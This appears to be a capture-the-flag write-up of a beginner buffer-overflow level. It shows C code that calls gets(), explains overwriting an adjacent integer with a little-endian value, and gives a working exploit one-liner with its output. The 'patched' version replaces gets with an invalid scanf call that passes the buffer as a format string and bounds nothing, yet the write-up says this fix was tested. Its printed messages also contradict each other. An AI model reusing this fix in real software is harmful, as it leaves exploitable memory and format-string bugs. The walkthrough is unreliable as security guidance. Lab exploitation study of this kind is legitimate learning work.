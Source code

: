 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    gets(buffer);
    if(g == 0x44864486)
    {
        printf("Your first trainning is complete operative.\n");
    }

}
```

\x86\x44\x86\x44

So as we can see here, this program suffers from the same vulnerabillity that level 0 suffered from. The inproper use of the gets() function (really that function shouldn't be used at all).
The buffer is the same size, and the integer is stored right next to the buffer so we should be able to reach the buffer in the same manner.
However this time, the integer is being compared to the hex value 0x44864486 (equivalent to 1149650054 in decimal). This won't be a problem however
since we can just push that value to the integer. That hex value is four bytes (just like ints in 32 bit C programs) so we shouldn't have a problem pushing to it. So our exploit will look like this

```
  filler (489 bytes to fill buffer space) + 0x44864486
```

One thing, due to how C programs read hex values we will have to push the hex in little endian format (least significant bit first). Essentially we will have to break the hex string up into four seperate pieces, and push them on in reverse order (and we ignore the 0x in the beginning). Look at the actual exploit for more detail. 

```
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# echo `python -c 'print "1"*489 + "\x86\x44\x86\x44"'` | ./1 
Just a little bit harder.
```

And just like that, we pwned the binary. Now let's patch it. It has the same vulnerabillity as the previous challenge, so the fix is the same.

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    scanf(buffer, stdin, sizeof(buffer));
    if(g == 0x44864486)
    {
        printf("Just a little bit harder.\n");
    }

}
```

So we replace gets with scanf, and limited the amount of input it can take to the size of buffer so it can't overflow it. Now let's test it.

```
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# echo `python -c 'print "1"*489 + "\x86\x44\x86\x44"'` | ./1_secure 
root@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/1# 
```

And just like that, we patched the binary.



